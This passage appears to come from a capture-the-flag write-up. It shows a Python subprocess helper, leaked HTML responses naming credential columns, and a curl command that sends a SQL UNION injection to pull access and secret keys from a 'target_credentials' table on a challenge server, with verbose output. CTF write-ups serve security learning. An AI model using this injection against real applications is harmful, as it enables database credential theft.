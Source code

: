 ```python
        print(out)
        print()

def curl(command):
    p = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    out, err = p.communicate()

    return out

main()
```

```python
...

i = 8
b'<!DOCTYPE html>\n<head>\n  <link rel="stylesheet" href="static/style.css">\n  <meta name="viewport" content="width=device-width, initial-scale=1" />\n  <title>Skynet Target List</title>\n</head>\n\n<body>\n  <div class="query">\n    \n      <h1>Kill before</h1>\n      <h1>target_credentials: access_key</h1>\n    \n  </div>\n</body>'

i = 9
b'<!DOCTYPE html>\n<head>\n  <link rel="stylesheet" href="static/style.css">\n  <meta name="viewport" content="width=device-width, initial-scale=1" />\n  <title>Skynet Target List</title>\n</head>\n\n<body>\n  <div class="query">\n    \n      <h1>Kill before</h1>\n      <h1>target_credentials: secret_key</h1>\n    \n  </div>\n</body>

...
```

The `access_key` and `secret_key` column names stood out in the `target_credentials` table. Modifying our curl command allowed us to pull from those two columns. Using an `OFFSET` of 0 gave us the flag.

```bash
curl -v -X POST 47.242.21.212:8085 \
   -b 'SessionId=a706967504e8247d98ad7e583a11e002' \
   -H 'Content-Type: multipart/form-data' \
   -F "name=' UNION ALL SELECT access_key, secret_key FROM target_credentials LIMIT 1 OFFSET '0"
```
```bash
*   Trying 47.242.21.212:8085...
* Connected to 47.242.21.212 (47.242.21.212) port 8085 (#0)
> POST / HTTP/1.1
> Host: 47.242.21.212:8085
> User-Agent: curl/7.79.1
> Accept: */*
> Cookie: SessionId=21199b076e91781a209628260d6ecc0c
> Content-Length: 222
> Content-Type: multipart/form-data; boundary=------------------------c2ffd11bf040c4a1
>
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 348
< Server: Werkzeug/0.16.1 Python/3.8.10
< Date: Sat, 22 Jan 2022 21:33:36 GMT
<
<!DOCTYPE html>
<head>
  <link rel="stylesheet" href="static/style.css">
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <title>Skynet Target List</title>
```